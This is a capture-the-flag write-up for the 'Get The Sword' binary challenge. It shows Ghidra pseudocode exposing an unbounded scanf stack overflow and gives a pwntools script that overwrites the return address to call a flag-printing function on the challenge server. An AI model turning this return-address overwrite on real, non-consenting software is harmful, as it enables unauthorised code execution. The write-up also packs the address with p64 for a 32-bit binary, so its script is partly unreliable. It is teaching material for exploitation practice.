






# Get The Sword (100 pts)



Download link: [https://drive.google.com/file/d/1HsQMxiZlP5978DzqnoZs6g6QOnCzVm_G/view](https://drive.google.com/file/d/1HsQMxiZlP5978DzqnoZs6g6QOnCzVm_G/view)

First, I run `file` and `checksec` commands to check the file type as well as some information about the file. And I noticed that this is a 32-bit program



Next, I run this file to know the flow of the program. This is a simple program that lets us type anything to "get the sword" (= flag)



After that, I used **[Ghidra](https://github.com/NationalSecurityAgency/ghidra)** to generate pseudo code and analyze it

As you can see in the image below, there are 4 functions that we may focus on, especially `main` and `getSword`:



Let's take a look at the `main` function:

```c
//main

undefined4 main(void)

{
  printSword();
  intro();
  return 0;
}
```

We see that it calls the `printSword` function, which will print an ASCII sword to the terminal as I tested above. It also calls `intro` function:

```c
//intro

void intro(void)

{
  undefined local_20 [24];
  
  printf("What do you want ? ?: ");
  fflush(_stdout);
  __isoc99_scanf(&DAT_0804a08c,local_20);
  printf("You want, %s\n",local_20);
  return;
}
```

The `intro` function allows input of up to 24 characters and prints it to the terminal. But, it uses `scanf`, which means we can input more than 24 characters to execute Stack Overflow vulnerability

The last function is `getSword()`:

```c
//getSword

void getSword(void)

{
  system("cat flag.txt");
  fflush(_stdout);
  return;
}
```

The `getSword()` function makes the challenge easier because our mission now is just to find a way to call it and we will get the flag


First, we need to overflow the buffer by filling it with 24 characters

```sh
python -c "print('A'*24)" | ./get_sword
```

But I don't see the `Segmentation Fault` here, so I'll continue to test some values until I reach it (it's **28** characters)



We can then add 4 more bytes to overflow the EBP register

```sh
python -c "print('A'*32)" | ./get_sword
```

Finally, by adding the address of the `getSword()` function, we can call it and retrieve the flag

You can use **[gdb](https://github.com/hugsy/gef)** to get the address of the `getSword()` function or use **pwntools** to find it faster.

This is the exploit script:

```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./get_sword")
io = remote("173.255.201.51", 31337)
io.sendline(b'\x90'*32 + p64(elf.sym['getSword']))
io.interactive()
io.close()
```



`Flag: KCTF{so_you_g0t_the_sw0rd}`

**Notes:** `\x90` is called NOPs. To read more about NOPs, click [here](https://github.com/ir0nstone/pwn-notes/blob/master/types/stack/nops.md)
